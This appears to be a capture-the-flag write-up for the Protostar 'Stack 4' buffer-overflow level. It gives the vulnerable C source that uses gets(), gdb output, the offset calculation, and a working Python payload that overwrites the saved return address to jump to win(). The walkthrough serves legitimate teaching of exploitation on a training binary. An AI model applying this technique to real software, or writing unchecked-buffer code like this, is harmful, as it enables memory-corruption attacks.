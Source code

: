 ```yaml
---
title: Stack 4
sidebar_position: 5
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
> This level is at /opt/protostar/bin/stack4
> 
> **Hints**
> - A variety of introductory papers into buffer overflows may help
> - gdb lets you do “run < input
> - EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this program, we have the `win` function. 
There is no initialized function pointer in the `main` function. There fore we will have to overwrite the saved `eip`, also known as the the saved return address.

The saved return address is located before the buffer.
```
		    |-------------------------|                                                       
entry esp --------> |     saved eip           |
		    |     (return address)    |
                    |-------------------------|                                                           
new ebp ----------> |     saved ebp           |
		    |-------------------------|
	 	    |     buff [63]           |
		    |          .              |
		    |          .              |
		    |          .              |
		    |     buff [0]            |
		    |-------------------------|
new esp ----------> |     i                   |
		    |-------------------------|
	            |                         |
```
That was a generalized representation.

We need the exact layout of the stack in order to craft our payload. 
```
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
Set a breakpoint at `main+21` and pass in the following input:
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```
This will lead to segmentation fault.
```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```
The error message tells us that the value of  stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

Let's try to get a clearer picture.
```
(gdb) info registers
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x73737373       0x73737373
esi            0x0      0
edi            0x0      0
eip            0x74747474       0x74747474
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
The 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`, and the four bytes before those which were `ssss` overwrote the saved `ebp`.
This means we need 80 bytes in total. 64 bytes to fill the `buffer`, 8 bytes of padding, 4 bytes to overwrite the `saved ebp` and 4 for overwriting the `saved eip`.

In order to alter control flow to the `win` function, we first need to know its address.
```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```
These four bytes need to be the `0x080483f4` address in little-endian format.

## Exploit
```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
```


```python
import struct

padding = "A"*76
eip = struct.pack("I", 0x080483f4)
payload = padding+eip
print (payload)
```
